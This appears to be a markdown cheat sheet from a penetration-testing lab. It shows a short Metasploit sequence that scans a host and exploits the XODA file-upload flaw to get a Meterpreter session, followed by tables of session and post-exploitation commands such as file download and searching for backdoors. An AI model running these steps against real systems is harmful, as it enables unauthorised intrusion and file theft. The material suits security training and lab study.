```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a meterpreter
msf6> setg rhosts 192.104.51.3
msf6> db_nmap -sV -sS -O 192.104.51.3

msf6> curl http://192.104.51.3
msf6> use exploit/unix/webapp/xoda_file_upload
msf6> set targeturi /
msf6> run

meterpreter> sysinfo
```

#### Group of commands

* Core commands
* File system commands
* Networking commands
* System commands
* Audio output commands

#### Out of session commands

| Command                    | Description                                                                 |
| -------------------------- | --------------------------------------------------------------------------- |
| `sysinfo`                  | System information.                                                         |
| `getuid`                   | User information.                                                           |
| `help`                     | Documentation.                                                              |
| `background`               | Set the session in background (Ctrl+Z).                                     |
| `exit`                     | Kill the session.                                                           |
| `sessions` `sessions -l`   | List all sessions.                                                          |
| `sessions -C sysinfo -i 1` | Execute the command `sysinfo` on `session 1` without setting it foreground. |
| `sessions 1`               | Switch to session 1.                                                        |
| `sessions -k 1`            | Kill session 1.                                                             |
| `session -n xoda -i 1`     | Rename session 1 to `xoda`.                                                 |

#### In session commands

| Command                            | Description                                                                       |
| ---------------------------------- | --------------------------------------------------------------------------------- |
| `ls`                               | List files.                                                                       |
| `pwd`                              | Current path.                                                                     |
| `cd`                               | Change directory.                                                                 |
| `mkdir`                            | Create a directory.                                                               |
| `cat`                              | Display the content of a file.                                                    |
| `edit`                             | Edit the content of a file.                                                       |
| `download`                         | Download the file into local.                                                     |
| `checksum md5`                     |                                                                                   |
| `getenv PATH`                      | Get the PATH variable.                                                            |
| `search -d /usr/bin -f *backdoor*` | Search file in `/usr/bin` folder.                                                 |